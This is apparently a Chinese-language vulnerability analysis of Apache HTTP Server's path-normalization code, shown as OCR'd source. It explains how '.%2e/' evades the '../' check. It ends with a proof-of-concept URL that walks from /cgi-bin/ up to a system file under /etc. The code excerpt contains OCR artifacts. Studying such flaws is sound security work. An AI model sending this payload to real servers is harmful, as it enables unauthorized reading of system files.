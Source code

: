 2        if ((flags &amp; AP_NORMALIZE_DECODE_UNRESERVED)
-                &amp;&amp; path[l] == '%' &amp;&amp; apr_isxdigit(path[l + 1])
-                                  &amp;&amp; apr_isxdigit(path[l + 2])) {
3            const char c = x2c(&amp;path[l + 1]);
3            if (apr_isalnum(c) || (c &amp;&amp; strchr("-._~", c))) {
-                /* Replace last char and fall through as the current
4                 * read position */
4                l += 2;
4                path[l] = c;
3            }
2        }
-           ...
2        if (w == 0 || IS_SLASH(path[w - 1])) {
-            /* Collapse ///// sequences to / */
3            if ((flags &amp; AP_NORMALIZE_MERGE_SLASHES) &amp;&amp; IS_SLASH(path[l])) {
-                do {
-                    l++;
4                } while (IS_SLASH(path[l]));
4                continue;
3            }
3
3            // 老师添加的注释 - part2
3            if (path[l] == '.') {
-                /* Remove /./ segments */
4                if (IS_SLASH_OR_NUL(path[l + 1])) {
-                    l++;
5                    if (path[l]) {
-                        l++;
5                    }
5                    continue;
4                }
4                /* Remove /xx/../ segments */
4                if (path[l + 1] == '.' &amp;&amp; IS_SLASH_OR_NUL(path[l + 2])) {
-                    /* Wind w back to remove the previous segment */
5                    if (w &gt; 1) {
-                        do {
-                            w--;
6                        } while (w &amp;&amp; !IS_SLASH(path[w - 1]));
5                    }
</code></pre><p>根据我在源码中添加的注释，可以定位关键代码段：</p><ul>
<li>
<p>注释1：<br>
检测到路径中存在%字符时，如果紧跟的2个字符是十六进制字符，就会进行url解码，将其转换成标准字符。</p>
<p>效果：<code>%2e -&gt; .</code></p>
</li>
<li>
<p>注释2：<br>
判断是否存在<code>../</code>  ，如果路径中存在<code>%2e./</code> 形式，就会检测到，但是出现<code>.%2e/</code> 这种形式时，就不会检测到。</p>
<p>效果：使用<code>.%2e/</code>或者<code>%2e %2e</code> 绕过对路径穿越符的检测。</p>
</li>
</ul><p>由此，即可构建PoC代码：</p><pre><code> $host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/password